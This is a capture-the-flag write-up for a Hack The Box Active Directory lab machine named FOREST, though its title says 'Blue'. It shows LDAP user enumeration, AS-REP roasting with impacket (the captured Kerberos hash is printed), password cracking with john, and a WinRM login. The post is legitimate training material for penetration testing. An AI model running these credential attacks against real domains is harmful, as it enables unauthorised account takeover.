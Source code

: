 ```yaml
---
layout: post
title:  "Hackthebox - Blue writeup"
date:   2023-06-03 19:00:00 +0300
categories: HTB write-up
---
```


## Recon

Let's start with the classic port scan.

```
sudo nmap -sS -sV 10.10.10.161 -oS nmap
```

which returns: 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 14:24 EEST
Nmap scan report for 10.10.10.161
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-14 11:48:00Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.54 seconds
```

On thing to note is the domain name (htb.local) as we will need this further on. 
Plenty of results immediately, but of course LDAP and Kerberos catches our attention. Let's try to enumerate users using LDAP search. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local"
```

This produces too many results, so I will try to grep what is interesting for me. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep userPrincipalName

userPrincipalName: Exchange_Online-ApplicationAccount@htb.local
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.loc
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.loc
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.loc
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB85
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.loc
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.loc
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.loc
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.loc
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local
userPrincipalName: sebastien@htb.local
userPrincipalName: santi@htb.local
userPrincipalName: lucinda@htb.local
userPrincipalName: andy@htb.local
userPrincipalName: mark@htb.local

```

and also grep for service accounts:

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep 'Service Accounts'


# Managed Service Accounts, htb.local
dn: CN=Managed Service Accounts,DC=htb,DC=local
cn: Managed Service Accounts
distinguishedName: CN=Managed Service Accounts,DC=htb,DC=local
name: Managed Service Accounts
# Service Accounts, htb.local
dn: OU=Service Accounts,DC=htb,DC=local
ou: Service Accounts
distinguishedName: OU=Service Accounts,DC=htb,DC=local
name: Service Accounts
# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
# Service Accounts, Security Groups, htb.local
dn: CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

```

which returns svc-alfresco as a result. 

## User flag

I create a users.txt file with all the accounts I discovered. The first tactic is to query for users that have no pre-authentication enabled. You can google that out or read this fine [article](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/) to find out more. In a nutshell, users with no pre-authentication enabled means these users don't have to prove they know their password to the Domain Controller. As a result these accounts can obtain AS-REP replies that contain TGT tickets and these replies are partly encrypted with the user's password. Now as an attacker you have the opportunity to crack it offline. 

There are tools to get the AS-REP replies and I am going to use impacket.

```
impacket-GetNPUsers -usersfile users.txt -request -format john -outputfile ASREPRoast.txt -dc-ip 10.10.10.161 'htb.local/'

cat ASREPRoast.txt 

$krb5asrep$svc-alfresco@htb.local@HTB.LOCAL:9745925cd49197ddcaa315d66e570f75$1ca0da77e1799e460b2818c58e3e98de2783b50dde571d6c18af1fe706662c6e2c573a545304769de6ebb630ff5d9e6c4fbf2d7df0323f9216ab03ba3bb5d49c7ee6b7caa7352fa370e20369e672f000eeec50dde6a6aa7ab89363030ea9b3c6364e1bd22eb45c0b78ef25bb2a544b0b4c797c0c5d2e89a3ce6a1134c645f2c3c3a1cb917df1a13328952f271209ddc8b4f024a80a345b675163a82b585b28f4cfa855bdf6af2f4c23349093d762e9de24c611261ae071fe61055c84fa38d2b68bb396f0ea017994c2e80bd776e24766e77fc2f27b6dc9352ad48749a2d1d7050bdd01c3a3b3
```

Now that we have the hashed password we can try to crack it with john ( this is the format we chose at the impacket command above).

```
john ASREPRoast.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

and now you have the user's password. Let's see what services there are to exploit...

hmm...

at this point I had to think a little bit. I did not scan for all the open ports during my nmap scan. I ran again the nmap scan with the ```-p-``` flag to scan all the ports and I got a new result: port 5985 open using HTTP, which [points us](https://www.speedguide.net/port.php?port=5985) to WinRM. 

Just googling *win-rm kali linux* shows me the evil-winrm tool. 

You can connect to the box using the following command:

```
evil-winrm -u svc-alfresco -p ********* -i 10.10.10.161
```

Now that you are connected, just look around and you'll find the user flag. 